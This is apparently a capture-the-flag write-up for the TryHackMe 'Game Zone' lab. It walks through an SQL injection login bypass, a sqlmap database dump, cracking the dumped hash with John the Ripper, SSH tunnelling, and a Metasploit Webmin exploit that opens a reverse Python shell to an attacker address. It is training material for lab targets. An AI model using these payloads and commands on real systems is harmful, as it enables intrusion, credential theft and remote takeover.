 # Game Zone

**Room Link:** [https://tryhackme.com/room/gamezone](https://tryhackme.com/room/gamezone)



### **Obtain access via SQLi**

Username field was vulnerable to SQLi,

```
Username: ' or 1=1 -- -
Password: anything
```

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

### **Using SQLMap**

I setup burp to intercept requests and then tried searching for something on the portal page

<figure><img src="../../.gitbook/assets/image (10) (2).png" alt=""><figcaption></figcaption></figure>

Saved the request into a file called request.txt, if you highlight everything and right click you can copy to file

<figure><img src="../../.gitbook/assets/image (4) (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (29) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6) (3).png" alt=""><figcaption></figcaption></figure>

```
sqlmap -r request.txt --dbms=mysql --dump
```

<figure><img src="../../.gitbook/assets/image (7) (2).png" alt=""><figcaption></figcaption></figure>

**In the users table, what is the hashed password?**

ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14

**What was the username associated with the hashed password?**

agent47

**What was the other table name?**

post

<figure><img src="../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

****

### **Cracking a password with JohnTheRipper**

Used the following site to idenfitfy what the hash type was. It identified that it is SHA2-256.

**Hash Analyzer:** [https://www.tunnelsup.com/hash-analyzer/](https://www.tunnelsup.com/hash-analyzer/)

<figure><img src="../../.gitbook/assets/image (27) (1).png" alt=""><figcaption></figcaption></figure>

**What is the de-hashed password?**

john was able to crack the hash ehich gave us the password videogamer124.

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=RAW-SHA256
```

<figure><img src="../../.gitbook/assets/image (14) (2).png" alt=""><figcaption></figcaption></figure>

```
ssh agent47@10.10.74.145
Password: videogamer124
```

\
**Now you have a password and username. Try SSH'ing onto the machine. What is the user flag?**

<figure><img src="../../.gitbook/assets/image (30).png" alt=""><figcaption></figcaption></figure>

**Exposing services with reverse SSH tunnels**

**How many TCP sockets are running?**

```
ss -tulpn
```

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

**What is the name of the exposed CMS?**

```
ssh -L 10000:localhost:10000 agent47@10.10.74.145
Password: videogamer124
```

<figure><img src="../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

**What is the CMS version?**

I was able to login with the previous credentials found and find the CMS version.

```
Username: agent47
Password: videogamer124
```

<figure><img src="../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

### **Privilege Escalation with Metasploit**

****

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

```
msfconsole
search 1.580
use 1
set USERNAME agent47
set PASSWORD videogamer124
set RHOSTS 127.0.0.1
set ssl false 

set payload cmd/unix/reverse_python
set lhost 10.10.108.150
set lport 443
exploit
```

<figure><img src="../../.gitbook/assets/image (3) (1) (2).png" alt=""><figcaption></figcaption></figure>
